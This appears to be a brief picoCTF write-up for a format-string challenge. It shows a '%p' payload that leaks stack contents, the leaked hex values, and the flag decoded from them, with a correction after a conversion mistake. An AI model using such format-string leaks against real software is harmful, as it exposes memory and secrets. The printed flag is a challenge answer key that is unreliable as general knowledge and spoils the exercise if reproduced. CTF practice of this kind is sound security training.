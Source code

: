 Exploit: "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"


This prints the contents of the stack as a pointer ie 8 byte in little endian format

    0x7b4654436f636970 0x355f31346d316e34 0x3478345f33317937 0x34365f673431665f 0x7d363131373732 0x70

Converting this from hex to string 

    picoCTF{4n1m41_57y13_4x4_f14g_64p277116}

(But this is wrong for some reason)

Okay so the correct flag is `picoCTF{4n1m41_57y13_4x4_f14g_64277116}`

Cyberchef was giving wrong answer for some reason

